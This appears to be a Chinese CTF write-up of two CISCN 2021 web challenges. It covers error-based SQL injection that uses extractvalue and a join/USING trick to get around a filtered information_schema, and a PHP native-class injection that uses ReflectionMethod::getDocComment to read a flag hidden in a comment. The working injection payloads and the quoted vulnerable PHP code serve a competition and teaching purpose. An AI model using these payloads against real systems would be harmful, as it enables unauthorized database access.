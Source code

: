 ```yaml
---
title: CISCN线上赛库存
date: 2021-08-18 17:21:24
categories: ['CTF']
tags: ['web','sql注入','php原生类']
---
```


# easy_sql

在用户名处，尝试sql注入，加上单引号报错，测试闭合，随便添加几个符号在password的报错附近中注意到了是**括号单引号闭合**

> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1') LIMIT 0,1' at line 1

过滤的字符有union，所以尝试报错注入，查询版本号。

```
admin') and (extractvalue(1,concat(0x7e,(select version()),0x7e)))#
```

接下来想要通过**information_schema**库查字段，但是发现被过滤了，所以猜表名和字段名，尝试出了flag表和表中的一个字段id，但是在id字段中只查询出了一个值：1，使用sqlmap跑也没跑出来。

最后参考了网上的一篇文章：[mysql 注入 information_schema_绕过IDS过滤information_schema继续注入](https://blog.csdn.net/weixin_35867608/article/details/113937118)，模仿文章构造payload

```
admin') and (extractvalue(1,concat(0x7e,(select * from (select * from flag a join flag b USING (id))c),0x7e)))#
```

回显为：Duplicate column name 'no'，一开始以为是报了个错，但是根据文章使用using继续把查到的no字段加上去，发现还有其他字段

```
Duplicate column name '28d9f90a-4120-4ee8-9079-4e7613699510'
```

直接得到一个假的flag，真的还在flag表中，查询flag表中的改字段，报错注入长度有限制，所以加个substr一段一段截就出来了

```
admin') and (extractvalue(1,concat(0x7e,substr((select `28d9f90a-4120-4ee8-9079-4e7613699510` from `flag`),1,30),0x7e)))#
```

flag：CISCN{SWAqt-siWro-Wi7jV-FTdRm-9iOkG-}

# easy_source

使用目录扫描，扫描到了`.index.php.swo`

```php
本题目没有其他代码了噢，就只有这一个文件，虽然你看到的不完全，但是你觉得我会把flag藏在哪里呢，仔细想想文件里面还有什么？
<?php
class User
{
    private static $c = 0;

    function a()
    {
        return ++self::$c;
    }

    function b()
    {
        return ++self::$c;
    }

    function c()
    {
        return ++self::$c;
    }

    function d()
    {
        return ++self::$c;
    }

    function e()
    {
        return ++self::$c;
    }

    function f()
    {
        return ++self::$c;
    }

    function g()
    {
        return ++self::$c;
    }

    function h()
    {
        return ++self::$c;
    }

    function i()
    {
        return ++self::$c;
    }

    function j()
    {
        return ++self::$c;
    }

    function k()
    {
        return ++self::$c;
    }

    function l()
    {
        return ++self::$c;
    }

    function m()
    {
        return ++self::$c;
    }

    function n()
    {
        return ++self::$c;
    }

    function o()
    {
        return ++self::$c;
    }

    function p()
    {
        return ++self::$c;
    }

    function q()
    {
        return ++self::$c;
    }

    function r()
    {
        return ++self::$c;
    }

    function s()
    {
        return ++self::$c;
    }

    function t()
    {
        return ++self::$c;
    }
    
}

$rc=$_GET["rc"];
$rb=$_GET["rb"];
$ra=$_GET["ra"];
$rd=$_GET["rd"];
$method= new $rc($ra, $rb);
var_dump($method->$rd());
```

看最后的参数列表，使用参数创建对象，并且创建对象的初始化参数需要有两个`$ra`、`$rb`

，源码虽然给出了`User`类，但是不知道有什么其他的方法，这时候想到了可能使用PHP的原生类。

根据提示

> 虽然你看到的不完全，但是你觉得我会把flag藏在哪里呢，仔细想想文件里面还有什么？

应该想到看不完全可能是在代码注释中，百度获取类中的代码注释，可以得到一个`ReflectionMethod`类，并且`ReflectionMethod`类中刚好有一个`getDocComment` 方法可以获得注释：

> 简介：**ReflectionMethod** 类报告了一个方法的有关信息。类报告了一个方法的有关信息
>
> ReflectionFunctionAbstract::getDocComment — 获取注释内容

源码中初始化创建对象为`new $rc($ra, $rb)`，传递了两个参数，`ReflectionMethod`类的初始化魔术方法也提供了两个参数

> public ReflectionMethod::__construct ( [mixed](https://www.php.net/manual/zh/language.types.declarations.php#language.types.declarations.mixed) `$class` , string `$name` )

所以构造第一个参数是User，第二个参数为源码里的那些方法名，一个一个尝试，在q方法中找到了flag的注释

payload

```
?rc=ReflectionMethod&ra=User&rb=q&rd=getDocComment
```

结果

```
你能发现我吗string(152) "/** * Increment counter * * @final * @static * @access publicCISCN{uLG8v-wGDDi-PfF4M-Pmc2U-uBqB2-} * @return int */"
```



题外话：在尝试过程中还发现了另一个类`ReflectionClass`

> 简介：**ReflectionClass** 类报告了一个类的有关信息。

和上面的那个类对比，两个类研究的对象不一样**ReflectionMethod**研究的是类中的方法，**ReflectionClass** 研究的是类。

这个类中也有一个获得注释的函数ReflectionClass::getDocComment，但是其获得的是文档注释，即文件开头的/**/中内容，但是本题的注释是在函数里的。

